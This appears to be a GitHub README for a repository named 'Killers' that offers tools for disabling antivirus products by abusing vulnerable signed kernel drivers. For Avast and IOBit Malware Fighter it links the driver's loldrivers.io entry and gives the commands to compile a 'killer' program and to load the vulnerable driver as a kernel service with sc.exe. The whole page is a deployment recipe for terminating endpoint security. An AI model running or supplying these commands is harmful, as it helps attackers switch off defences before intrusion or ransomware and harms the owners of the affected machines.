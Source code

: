 # Killers

<p align="center">
  <img src="https://github.com/xalicex/Killers/blob/main/killers.jpg"  width=40% height=40% >
</p>

## Avast

https://www.loldrivers.io/drivers/57fc510a-e649-4599-b83e-8f3605e3d1d9/

```
x86_64-w64-mingw32-gcc -o avast_killer.exe avast_killer.c 
sc.exe create aswArPot.sys binPath= C:\windows\temp\aswArPot.bin type= kernel && sc.exe start aswArPot.sys
```

## IOBit Malware Fighter

https://www.loldrivers.io/drivers/fe2f68e1-e459-4802-9a9a-23bb3c2fd331

```
x86_64-w64-mingw32-gcc -o iobit_malwarefighter_killer.exe iobit_malwarefighter__killer.c 
sc.exe create kEvP64.sy binPath= C:\windows\temp\kEvP64.bin type= kernel && sc.exe start kEvP64.sy
```
